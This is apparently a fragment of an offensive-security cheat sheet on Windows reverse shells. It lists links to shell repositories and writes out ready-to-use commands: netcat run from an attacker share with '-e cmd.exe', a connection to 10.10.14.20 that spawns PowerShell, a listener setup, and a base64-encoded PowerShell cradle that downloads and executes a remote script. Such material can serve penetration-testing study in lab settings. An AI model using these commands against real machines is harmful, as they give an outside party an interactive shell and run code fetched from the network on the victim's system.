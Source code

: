 ## Windows

| [https://github.com/Dhayalanb/windows-php-reverse-shell](https://github.com/Dhayalanb/windows-php-reverse-shell) |
| ---------------------------------------------------------------------------------------------------------------- |

```bash
#-----------------------------------NETCAT-------------------------
# TO EXECUTE A REVERSE SHELL WITHOUT COPYING NC.EXE IN ONE SINGLE STEP
start /b #---> starts a program in the background (optional, try with or without)
(start /b) \\$IP\$SHARE\nc.exe $IP $PORT -e cmd.exe
cmd /c \\$IP\$SHARE\nc.exe $IP $PORT -e cmd 

rlwrap -rci nc -lvnp 4444
# -c --> complete filenames
# -i --> ignore case sensitive (except for filenames) 
# -r --> remember, put all words seen on in- and output on the completion list

# Upload nc.exe to the victim machine on \Windows\Temp or \Windows\Tasks and there:
nc $IP $PORT -e $COMMAND
nc 10.10.14.20 443 -e powershell
```

### Base64

[https://gist.github.com/tothi/ab288fb523a4b32b51a53e542d40fe58](https://gist.github.com/tothi/ab288fb523a4b32b51a53e542d40fe58)

### Powershell

<pre class="language-powershell" data-overflow="wrap" data-full-width="true"><code class="lang-powershell">https://github.com/X0RW3LL/PSX
https://gist.github.com/jakobfriedl/7e1aca7228671271f1a4f86c9fd7a53e

# One-liner
https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3

# Reverse PowerShell cmdline payload generator (base64 encoded)
https://gist.github.com/tothi/ab288fb523a4b32b51a53e542d40fe58

Start-Process -Filepath C:\programdata\met -Wait -NoNewWindow

# Base64
echo -n "IEX(New-Object Net.WebClient).downloadString('http://$IP/Inv-Pow.ps1')" | iconv --to-code UTF-16LE | base64 -w 0
powershell -EncodedCommand ...

Start-Process -NoNewWindow -FilePath C:\Windows\Tasks\shell.exe
# New and independent PS instance/shell
Start-Process powershell.exe -ArgumentList "-NoProfile -NoExit -Command {Start-Process powershell.exe -ArgumentList '-NoProfile -NoExit -Command {Invoke-Expression "Your-Command-Here"}'}"
